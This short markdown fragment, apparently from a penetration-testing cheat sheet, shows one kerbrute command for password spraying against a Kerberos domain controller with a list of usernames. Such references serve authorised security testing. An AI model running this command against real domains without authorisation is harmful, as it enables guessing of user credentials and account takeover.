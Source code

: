 # Kerberos

### Password Spraying

_Kerbrute_

```
kerbrute passwordspray -d domain.com --dc $ip users.txt
```
